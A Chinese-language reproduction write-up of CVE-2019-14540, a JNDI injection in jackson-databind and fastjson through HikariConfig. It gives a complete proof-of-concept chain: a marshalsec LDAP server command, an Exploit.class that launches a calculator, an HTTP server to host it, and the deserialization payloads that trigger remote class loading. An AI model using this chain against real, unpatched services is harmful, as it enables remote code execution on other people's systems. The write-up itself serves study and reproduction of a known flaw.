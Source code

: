 ```yaml
---
title: （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
id: zhfly2929
---
```


# （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞

## 一、漏洞简介

FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

jackson-databind <=2.7.9.6,2.8.11.4,2.9.9.3

fastjson <= 1.2.59

## 三、复现过程

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

```
compile 'com.zaxxer:HikariCP:2.4.0' 
```

观察 HikariConfig.java 的setter 和 getter 方法，稍微有点常识的人都能看出， setMetricRegistry 和 setHealthCheckRegistry 里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于 java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个 class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建 ldap server，作用是转发到另一个 http server 上，使用非常方便。

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389 `Listening on 0.0.0.0:1389` 
```

然后编译一个 Exploit.class 出来，找个地方放好

```
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

然后在 Exploit.class 目录，开一个 http 服务

```
python -m SimpleHTTPServer 
```

之后使用 jackson 进行反序列化

```
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class); 
```

或者使用 fastjson 进行反序列化

```
ParserConfig.global.setAutoTypeSupport(true);
JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}"); 
```

即可触发弹计算器

![image](../img/b9e3bb35e193b3e64a08a9d10102e2a1.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

## 参考链接

> https://www.leadroyal.cn/?p=939

> https://www.restran.net/2018/10/29/fastjson-rce-notes/

> https://paper.seebug.org/942/